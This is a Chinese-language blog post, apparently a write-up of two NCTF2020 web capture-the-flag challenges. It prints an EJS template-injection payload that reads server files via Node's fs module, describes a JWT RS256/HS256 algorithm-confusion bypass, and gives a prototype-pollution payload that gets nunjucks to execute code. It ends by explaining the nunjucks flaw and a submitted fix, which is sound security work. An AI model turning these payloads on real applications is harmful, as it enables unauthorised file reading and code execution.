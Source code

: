```yaml
---
title: NCTF2020复盘
date: 2020-11-23 18:36:19
tags: ["随笔", "安全"]
index_img: ../assets/nctf2020/profile.png
---
```


# 前言

从大一开始我每年都打 NCTF，~~除了恰烂钱，~~感觉每次都可以学到点不一样的东西。今年的 web 题有点不一样，感觉挺有意思的，加深了我对 JavaScript 相关的一些安全问题的理解。

![profile](../assets/nctf2020/profile.png)

## JS-world

![problem1-1.png](../assets/nctf2020/problem1-1.png)

这道题涉及到的是 ejs 模板的注入问题，同时传入的后端的信息会先经过前端过滤一次。可以通过 DevTool 的断点调试功能，找到相关的过滤关键字的代码如下，删除后即可绕过。

```javascript
_0x23132f = _0x23132f[_0x1bef85("0x5")](
  /[\/\*\'\"\`\<\\\>\-\(\)\[\]\=\%\.]/g,
  ""
);
```

这里的输入存在模板注入问题，通过 payload `> <%= global.process.mainModule.constructor._load("fs"). readdirSync("/") %> <` 和`> <%= global.process.mainModule.constructor._load("fs"). readFileSync("/flag.txt") %> <` 即可读取目录并获得 flag

![problem1-1.png](../assets/nctf2020/problem1-2.png)

## PackageManager_v1.0

这道题可以获取到源码，通过审计代码发现了一个问题，这里的鉴权使用的是 JWT token，签名时使用的是 RS256，但是验证时使用的是 RS256 和 HS256，同时将公钥加到了 payload 中。RS256 是非对称加密算法，HS256 是对称加密算法。因此我们可以解析 token 后获取到公钥，并使用公钥和 HS256 生成自己的 token，绕过鉴权。

![problem2-1](../assets/nctf2020/problem2-1.png)

代码中存在着对象 clone 的代码，有原型链污染的漏洞

![problem2-2](../assets/nctf2020/problem2-2.png)

![problem2-3](../assets/nctf2020/problem2-3.png)

这里当第 9 行的 key 为`__proto__`时就会造成原型链污染，修改变量`a`的原型(即 Object.prototype)上的属性。

同时，这里使用的模板引擎是 nunjucks，其源代码中存在着一些`new Function`和字符串拼接，有被注入的可能性。

构造 payload 如下，即可成功获取 flag

```json
{
  "author": "111",
  "__proto__": {
    "description": "global.process.mainModule.require('fs').readFileSync('/w0w_Congrats_Th1s_1s_y0ur_flaaag')"
  }
}
```

![problem2-5](../assets/nctf2020/problem2-5.png)

-------------------------时间分割线---------------------------

2020 年 11 月 25 日

![payload](https://user-images.githubusercontent.com/42082890/100094205-9cc29480-2e93-11eb-8365-6b2d191de84e.png)

后面排查发现这个是`nunjucks`的一个漏洞，目前已经发起 Pull Request 修复了[nunjucks/pull/1330/](https://github.com/mozilla/nunjucks/pull/1330/)。感谢出题人[@baiyecha404](https://bycsec.top)的题发现了这个漏洞。

经过排查，问题出在[nunjucks/src/runtime.js](https://github.com/mozilla/nunjucks/blob/f51afa3382eab27ccb216c0f302832e5a4135ac5/nunjucks/src/runtime.js)文件中`Frame.prototype.variables`变量中，错误地使用普通的 object 作为 Map 使用，导致读取变量时可能会从 Object.prototype 中读取变量。当 npm 包外发生 Object.prototype 被污染时，会导致读取 variables 上的属性时得到意料之外的值，同时模板引擎存在着大量字符串拼接，这导致 payload 被执行。

使用`Object.create(null)`替代`{}`作为 Map 会更为安全，同时也可以对原型使用`Object.freeze`避免原型被意外修改。

